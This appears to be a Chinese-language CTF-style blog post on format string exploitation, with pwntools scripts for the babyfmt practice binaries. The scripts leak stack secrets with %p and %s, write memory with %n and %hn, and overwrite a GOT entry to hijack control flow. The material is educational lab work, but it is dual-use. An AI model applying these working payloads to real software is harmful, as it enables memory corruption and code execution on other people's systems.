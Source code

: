 ```yaml
---
layout: post
tags: [pwn]
title: "fmt 利用手法"
author: wsxk
date: 2025-4-1
comments: true
---
```



- [1. leak data](#1-leak-data)
  - [1.1 data存储在栈上](#11-data存储在栈上)
  - [1.2 指向data的指针存放在栈上](#12-指向data的指针存放在栈上)
  - [1.3 data和指向data的指针不放在栈上，但是fmt在栈上](#13-data和指向data的指针不放在栈上但是fmt在栈上)
- [2. write data](#2-write-data)
  - [2.1 指向data的指针不在栈上，但fmt在栈上](#21-指向data的指针不在栈上但fmt在栈上)
    - [2.1.1 特例: 写一个超大值](#211-特例-写一个超大值)
- [3. leak and write](#3-leak-and-write)
  - [3.1 fmt在栈上，一次printf，泄露某个地址的值，并写入另一个地址](#31-fmt在栈上一次printf泄露某个地址的值并写入另一个地址)
  - [3.2 fmt在栈上，一次printf写got表,劫持控制流](#32-fmt在栈上一次printf写got表劫持控制流)

# 1. leak data<br>
## 1.1 data存储在栈上<br>
对于我们要泄露的data直接存储在栈上，我们可以下断点在 格式化字符串漏洞的函数的 被调用点，这样可以观察栈的布局，得知要打印第几个参数,打印即可<br>
```python
from pwn import *
context.log_level = 'debug'
context.os = 'linux'
context.arch ='amd64'
binary_path = './babyfmt_level1.0'

p = process(binary_path)
p.recvuntil(b"Send your data!")
p.sendline(b"%6$p %7$p")
p.recvuntil(b"0x")
secert1 = int(p.recvuntil(b" ").strip(b" "),16)
secert2 = int(p.recvline().strip(b"\n").ljust(8,b"\x00"),16)
print(p64(secert1)+p64(secert2))

p.interactive()
```

## 1.2 指向data的指针存放在栈上<br>
对于我们要泄露的data的指针存储在栈上，我们可以下断点在 格式化字符串漏洞的函数的 被调用点，这样可以观察栈的布局，得知要打印第几个参数,打印即可<br>
```python
from pwn import *
context.log_level = 'debug'
context.os = 'linux'
context.arch ='amd64'
binary_path = './babyfmt_level2.1'

p = process(binary_path)
p.recvuntil(b"Send your data!")
gdb.attach(p,"b *$rebase(0x14CE)")
pause()

p.sendline(b"%7$s")
p.recvuntil(b"I will now call printf on your data!")
p.recvline()
p.recvline()
secret = p.recvline()
log.success(f"secret: {secret}")
p.recvuntil(b"What is the secret password?")
p.sendline(secret)
p.interactive()
```

## 1.3 data和指向data的指针不放在栈上，但是fmt在栈上<br>
在这种情况下，如果我们能够知道data的地址，就可以将其写入fmt中，由其帮我们打印data<br>
没有地址，就创造地址！<br>
```python
from pwn import *
context.log_level = 'debug'
context.os = 'linux'
context.arch ='amd64'
context.terminal = ['tmux','splitw','-h']
binary_path = './babyfmt_level3.1'

p = process(binary_path)
gdb.attach(p,"b *0x401468")
pause()
p.sendline(b"aa%23$s"+p64(0x404100))

p.interactive()
```

# 2. write data<br>
## 2.1 指向data的指针不在栈上，但fmt在栈上<br>
如果我们能够知道data的地址，那么就能够将其写入fmt中，利用`%6$n`等手段来往其中写入值<br>
```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
context.terminal = ['tmux','splitw','-h']

binary_path = "./babyfmt_level4.1"
p = process(binary_path)

p.recvuntil(b"I will now read up to 256 bytes. Send your data!")
gdb.attach(p,"b *0x4014B4")
pause()

payload = b"%234x%25$n"+b"a"*4+p64(0x4040D8)
p.send(payload)

p.interactive()
```
### 2.1.1 特例: 写一个超大值<br>
如果你需要在某个地址处，写一个8字节的值，可以考虑将其切片成2+2+2+2的形式，否则直接打印一个八字节数量的字符串，很可能撑爆你的terminal！<br>
```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'
#context.terminal=['tmux','splitw','-h']

#binary_path = './babyfmt_level5.1'
binary_path = '/challenge/babyfmt_level5.1'
p = process(binary_path)

#gdb.attach(p,"b *0x4014D6")
#pause()
p.recvuntil(b"Send your data!")
payload = b"%5575x%38$hn%4770x%39$hn%9x%40$hn%2650x%41$hn"+p64(0x404148+0) + p64(0x404148+4) + p64(0x404148+6) + p64(0x404148+2) # 分成2+2+2+2的形式，并对值进行排序
p.send(payload)

p.interactive()
```

# 3. leak and write<br>
## 3.1 fmt在栈上，一次printf，泄露某个地址的值，并写入另一个地址<br>
借助`%*73$c`的力量，能够打印第73个参数（实际上是printf的第74个参数）的值，并通过`%31$n`写入第31个参数所指向的内存中。<br>
```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'
context.terminal=['tmux','splitw','-h']

binary_path = './babyfmt_level6.1'
p = process(binary_path)
gdb.attach(p,"b *0x401526")
pause()

p.recvuntil(b"Send your data!\n")
payload = (b"%*73$c"+b"%31$n")
payload = payload.ljust(17,b"a")
payload += p64(0x404130)
p.send(payload)
p.interactive()
```

## 3.2 fmt在栈上，一次printf写got表,劫持控制流<br>
与3.1的原理是一样的<br>
```python
from pwn import *
context.log_level='debug'
context.os='linux'
context.arch='amd64'
# context.terminal=['tmux','splitw','-h']

binary_path = './babyfmt_level7.1'
p = process(binary_path)
binary = p.elf

#gdb.attach(p,"b *0x401491")
#pause()

payload = b"%*36$c%37$ln".ljust(16,b"a")
payload += p64(0x40133D) # func_addr you want to call
payload += p64(0x404088) # strstr got
p.recvuntil(b"vulnerability:")
p.send(payload)

p.interactive()
```


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>